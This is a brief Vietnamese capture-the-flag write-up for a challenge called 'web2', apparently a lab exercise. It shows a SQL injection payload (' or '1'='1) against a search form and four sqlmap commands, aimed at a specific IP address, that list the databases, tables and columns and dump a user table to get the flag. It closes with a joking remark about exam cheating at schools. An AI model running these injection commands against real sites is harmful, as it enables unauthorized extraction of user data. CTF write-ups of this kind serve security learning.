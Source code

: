 - tiêu đề : web2

- tiếp tục challenges sau khi khởi động web1 

![Alt text](<./img/2.1.png>)

- okay giờ có 1 tính năng tìm kiếm ròi: mình thử 1 số input thì nghĩ là đây là tính năng xem người dùng tồn tại chưa : 
   + nếu có kết quả thì trả về username exist 
   + không thì là data not found 

- nhưng không dừng lại ở đó :> sau khi thêm 1 vài phép thử như dấu ' thì có văng ra cả input error ở chỗ dấu * 
- mình test thử payload sqli : ' or '1'='1 và thành công trả về usernam exist       

![Alt text](<./img/2.3.png>)

- hôm mình làm thì code mà th nay viết wu dùng tool cho lẹ 

- mình để lại lệnh nhé vì bài này cũng không có gì lắm nên lười làm lại :v 

bước 1 : sqlmap -u "http://14.225.255.180:5000/index.php" --data="search=1&save=" --method POST --level 5 --risk 3 --batch --dbs
-> sẽ kiếm được cái dtb là IDC hay sao é :v ( mình không nhớ rõ tên có gì sửa cái IDC đi nhá)
bước 2 : sqlmap -u "http://14.225.255.180:5000/index.php" --data="search=1&save=" --method POST --level 5 --risk 3 --batch -D IDC --tables
-> kiếm được tables là user
bước 3 : sqlmap -u "http://14.225.255.180:5000/index.php" --data="search=1&save=" --method POST --level 5 --risk 3 --batch -D IDC -T user --columns 
-> lấy được 4 trường : email , name , id , hidden 
bước 4 : sqlmap -u "http://14.225.255.180:5000/index.php" --data="search=1&save=" --method POST --level 5 --risk 3 --batch -D IDC -T user -C email,name,id,hidden --dump

- đợi tẹo là có flag nhá :> 

#hackerga2101: hehe lại là hackerga2101 và phi vụ thi lậu ở các trường
